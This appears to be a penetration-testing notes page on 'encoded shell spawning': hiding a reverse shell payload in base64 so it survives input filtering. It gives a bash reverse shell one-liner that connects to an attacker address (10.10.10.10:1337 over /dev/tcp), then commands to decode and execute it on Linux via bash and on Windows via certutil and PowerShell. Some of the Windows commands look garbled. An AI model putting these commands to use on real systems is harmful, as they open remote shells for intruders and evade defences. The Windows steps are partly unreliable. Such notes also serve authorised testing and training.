# Encoded Shell Spawning

Sometimes using some [[Shell-Spawning]] tool is not enough either how characters are handled at any point clientside to serverside require encoding to be decoded back to execuatable form. The only assumption made is the the attacker machine is some Linux distro with default binaries and a encoding binary installed.

## Base64

Covert to base64 with 0 column wrapping to prevent multi-line base64 string
```bash
# Create payload
echo "/bin/bash -c 'exec bash -i &>/dev/tcp/10.10.10.10/1337 <&1'" | base64 -w0
# -w0 means wrap 0 columns 
```

Decode Payload on target machine:

Linux
```bash
echo "$base64EncodedString" | base64 -d | bash
```

Windows
```powershell
$args = [string] '(& echo "$base64EncodedString" | certutil -decode)'
& powershell.exe $args

echo "$base64EncodedString" | certutil -decode | powershell.exe $input

```